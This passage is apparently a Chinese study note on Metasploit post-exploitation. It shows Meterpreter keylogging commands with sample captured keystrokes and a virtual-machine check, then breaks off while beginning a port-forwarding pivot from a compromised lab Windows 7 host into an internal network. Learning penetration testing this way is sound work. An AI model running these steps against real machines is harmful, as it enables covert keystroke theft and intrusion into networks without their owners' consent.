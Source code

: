 ```yaml
---
title: MasterMsf 2 定制Metasploit Part 3
category: metasploit
---
```


# {{ page.title }}

> But you are still you, and I love you.

## Meterpreter其他功能介绍

在第一章的渗透测试过程中我们已经使用过一些脚本，如

[这里](http://www.scadahackr.com/library/Documents/Cheat_Sheets/Hacking%20-%20Meterpreter%20Cheat%20%20Sheet.pdf)有一份Meterpreter速查表。

有一些到目前为止还没有使用过的功能，但比较有意思的，这里列举一下：

- 键盘嗅探

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
<Left Windows>notepad<CR>
<Shift>Long time no see<CR>
<Shift>How are you<^Left Windows>

meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

![Screen Shot 2018-10-23 at 3.27.07 PM.png]({{ site.url }}/images/metasploit/B4C6B53C93726B862419B959B23F4C01.png)

- 检查是否处于虚拟机环境

```
meterpreter > run checkvm

[!] Meterpreter scripts are deprecated. Try post/windows/gather/checkvm.
[!] Example: run post/windows/gather/checkvm OPTION=value [...]
[*] Checking if target is a Virtual Machine .....
[*] This is a VMware Virtual Machine
```

- 端口转发

与第一章的情况类似，现在是：我们拿下了`172.16.56.108`的Win7的Meterpreter，这个Win7的另一个网卡`192.168.6.110`所在网段有一个Web服务器`192.168.6.128`，它能够访问这个Web服务器，但攻击者不行。攻击者希望能够用自己的浏览器去访问这个Web服务器。

首先看一下，Win7确实能访问：

